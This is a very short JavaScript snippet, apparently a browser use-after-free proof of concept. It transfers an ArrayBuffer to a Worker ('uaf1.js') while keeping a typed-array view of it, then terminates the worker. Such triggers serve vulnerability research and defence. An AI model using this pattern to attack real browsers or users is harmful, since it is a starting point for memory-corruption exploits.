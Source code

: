 
var buffer = new ArrayBuffer(0x10000);
var view = new Uint32Array(buffer);
var worker = new Worker('uaf1.js');
worker.postMessage(buffer,[buffer]);
worker.terminate();
